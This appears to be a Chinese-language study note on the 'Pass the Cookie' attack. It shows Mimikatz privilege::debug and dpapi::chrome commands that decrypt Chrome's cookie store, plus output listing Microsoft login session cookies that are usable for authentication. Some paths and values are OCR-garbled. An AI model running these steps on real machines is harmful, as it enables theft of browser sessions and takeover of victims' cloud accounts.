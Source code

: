 ## Cloud ←→ On Premise
### On-Premise to Cloud - Pass the Cookie: Mimikatz
>[!Note] 
>[Mimikatz](https://github.com/ParrotSec/mimikatz): Windows 安全工具\
由 Benjamin Delpy 開發的開源安全工具，用於測試和展示 Windows 作業系統的安全漏洞，尤其是與身份驗證、憑證存儲和密碼管理相關的弱點。

Pass the Cookie :針對 Web 應用認證機制的攻擊方式，透過竊取來的連線cookie去驗證，繞過傳統登錄機制。 (案例：[iThome](https://www.ithome.com.tw/news/142230))
```Mimikatz
mimikatz # privilege::debug
Privilege '20' OK
```
> `privilege::debug`: 提權命令

```Mimikatz
mimikatz # dpapi::chrome /in:2localapodata&)google)chrome(USERDA-1defaulticookies /unprotect
Encrypted Key found in local state file
> Encrypted Key seems to be protected by DPAPI
* using CryptUnprotectData API
>AES Key is: 6ecbf26057751a9f9ea127676183531d3ee3abb0a1b766829797a7fbb1cbbd98f94d
```
> `dpapi::chrome`: 用來解密 Google Chrome 中的 Cookies 檔案\
>> `/in`: 指定瀏覽器的 Cookie 檔案路徑\
>> `/unprotect`: 調用 Windows DPAPI (CryptUnprotectData) 解密 AES 密鑰\
>> Windows Data Protection API (DPAPI) 是 Microsoft 提供的一種加密機制
>
> AES Key 成功解密 DPAPI 後可以取得 Cookies 資料。

Cookie 結構：
```Mimikatz
Host : .bing.com ( / )
Name : MUID
Dates:1/2/2/2024 7:24:49 AM -> 1/26/2025 7:24:49 AM
using BCrypt with AES-256-GCM
Cookie: 20390F3E887E62642BD71CC48C7E64E6

Host :login.microsoftonline.com ( )
Name : ESTSAUTHLIGHT
Dates : 1/4/2024 4:37:20 AM
using BCrypt with AES-256-GCM
Cookie: +6cb6c7c6-067e-4f2f-8657-0175ff5e1304+3ebafa15-52a1-4c9a-bceb-ec821e486204

Host : login.microsoftonline.com ( )
Name : ESTSSSOTILES
Dates:12/21/2023 7:14:38 PM -> 1/1/2034 7:00:38 PM
using BCrypt with AES-256-GCM
Cookie: 1

Host : login.microsoftonline.com ( )
Name : MSFPC
Dates : 12/24/2023 10:56:10 PM -> 12/23/2024 10:56:10 PM
using BCrypt with AES-256-GCM
Cookie: GUID-12e2efe96c4c4800983d3d91c313be24c&HASH=12e2&LV-262312&V=4&LU-1782824884828323
```
> Host：Cookie 所屬的 domain name
Name：Cookie 名稱 (如 MUID)\
Dates：有效期限\
加密演算法：BCrypt with AES-256-GCM\
Cookie 值： 可用於認證
